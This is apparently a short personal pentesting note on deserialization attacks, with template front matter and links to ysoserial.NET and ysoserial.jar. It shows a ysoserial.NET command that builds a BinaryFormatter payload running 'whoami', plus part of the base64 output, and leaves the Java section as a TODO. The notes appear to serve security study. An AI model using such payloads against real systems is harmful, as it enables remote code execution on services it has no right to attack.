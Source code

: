 ```yaml
---
description: >-
  Deserialization Attack
title: Deserialization Attack            # Add title here
date: 2022-11-06 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Deserialization Attack]                     # Change Templates to Writeup
tags: [exploitation, deserialization attack]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Ysoserial.NET
[ysoserial.NET](https://github.com/pwntester/ysoserial.net/releases/tag/v1.35) this tool only works for Windows, after download it we need to identify the format of the binary or program running the code (-g) and the format (-f) that has the deserialization/serialization vulnerability:

```powershell
C:\Users\Administrator\Desktop\Release>ysoserial.exe -g WindowsIdentity -f BinaryFormatter -o base64 -c "whoami"
AAEAAAD/////AQAAAAAAAAAEAQAAAClTeXN0ZW0uU2VjdXJpdHkuUHJpbmNpcGFs...
dGdVkyVStEUW84TDA5aWFtVmpkRVJoZEdGUWNtOTJhV1JsY2o0TAs=
```
Example:
[[Scramble#^564d19]]

### Ysoserial.jar
[ysoserial.jar](https://github.com/frohoff/ysoserial/releases) for java deserialization

TODO